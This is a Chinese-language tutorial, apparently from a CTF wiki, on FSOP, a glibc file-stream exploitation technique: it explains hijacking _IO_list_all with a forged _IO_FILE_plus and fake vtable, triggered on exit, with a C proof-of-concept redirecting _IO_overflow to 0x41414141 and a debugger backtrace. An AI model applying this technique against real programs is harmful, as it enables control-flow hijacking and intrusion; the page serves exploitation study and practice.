

# FSOP

## 介紹
FSOP是File Stream Oriented Programming的縮寫，根據前面對FILE的介紹得知進程內所有的_IO_FILE結構會使用_chain域相互連接形成一個鏈表，這個鏈表的頭部由_IO_list_all維護。

FSOP的核心思想就是劫持_IO_list_all的值來僞造鏈表和其中的_IO_FILE項，但是單純的僞造只是構造了數據還需要某種方法進行觸發。FSOP選擇的觸發方法是調用_IO_flush_all_lockp，這個函數會刷新_IO_list_all鏈表中所有項的文件流，相當於對每個FILE調用fflush，也對應着會調用_IO_FILE_plus.vtable中的_IO_overflow。

```
int
_IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
        ...
  }
}
```



而_IO_flush_all_lockp不需要攻擊者手動調用，在一些情況下這個函數會被系統調用：

1.當libc執行abort流程時

2.當執行exit函數時

3.當執行流從main函數返回時


## 示例

梳理一下FSOP利用的條件，首先需要攻擊者獲知libc.so基址，因爲_IO_list_all是作爲全局變量儲存在libc.so中的，不泄漏libc基址就不能改寫_IO_list_all。

之後需要用任意地址寫把_IO_list_all的內容改爲指向我們可控內存的指針，

之後的問題是在可控內存中佈置什麼數據，毫無疑問的是需要佈置一個我們理想函數的vtable指針。但是爲了能夠讓我們構造的fake_FILE能夠正常工作，還需要佈置一些其他數據。
這裏的依據是我們前面給出的

```
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
```

也就是

* fp->_mode <= 0
* fp->_IO_write_ptr > fp->_IO_write_base


在這裏通過一個示例來驗證這一點，首先我們分配一塊內存用於存放僞造的vtable和_IO_FILE_plus。
爲了繞過驗證，我們提前獲得了_IO_write_ptr、_IO_write_base、_mode等數據域的偏移，這樣可以在僞造的vtable中構造相應的數據

```
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);

    *(long long*)((long long)ptr+0x100+24)=0x41414141;

    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

我們使用分配內存的前0x100個字節作爲_IO_FILE，後0x100個字節作爲vtable，在vtable中使用0x41414141這個地址作爲僞造的_IO_overflow指針。

之後，覆蓋位於libc中的全局變量 _IO_list_all，把它指向我們僞造的_IO_FILE_plus。

通過調用exit函數，程序會執行 _IO_flush_all_lockp，經過fflush獲取_IO_list_all的值並取出作爲_IO_FILE_plus調用其中的_IO_overflow

```
---> call _IO_overflow
[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)
[#1] 0x7ffff7a8932a → Name: _IO_cleanup()
[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)
[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)
[#4] 0x4005ce → Name: main()

```
